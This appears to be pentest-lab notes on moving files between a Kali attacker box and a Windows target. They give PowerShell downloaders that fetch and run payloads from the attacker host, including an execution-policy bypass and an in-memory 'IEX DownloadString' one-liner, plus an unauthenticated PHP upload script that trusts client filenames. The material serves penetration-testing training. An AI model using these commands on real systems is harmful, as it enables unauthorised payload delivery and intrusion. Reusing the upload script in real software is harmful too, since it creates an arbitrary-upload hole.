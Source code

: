 ## Powershell
PowerShell can be used to transfer files between Kali and Windows in both directions.\\
**Kali -> Windows** (start a web server on Kali):

Create a Powershell downloader script (*wget.ps1*) on the Windows machine:
````
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<Kali IP>/<File to download>" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
`````
Run the script:
````
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
````
The execution of powershell scripts is restricted by default, so we allow it with _-ExecutionPolicy Bypass_.

Alternative one-liners:
````
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<Kali IP>/<File to download>', '<Name of the downloaded file>')
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<Kali IP>/<File to download>','C:\<Path of the downloaded file>')"
````

Download without saving the file to disk:
````
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://<Kali IP>/<File to download>')
````

**Windows -> Kali** (WARNING: this allows anyone to upload files on Kali)

Create the following PHP script on Kali and save it as _upload.php_ in the webroot directory (_/var/www/html_):

````
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
````

This code processes an incoming file upload request (POST) and save the transferred data to _/var/www/uploads/_. 
Before using it, we create the _uploads_ folder and grant the _www_data_ user ownership and write permissions (check status as well):

````
sudo mkdir /var/www/uploads
ps -ef | grep apache
sudo chown www-data: /var/www/uploads
ls -al
````
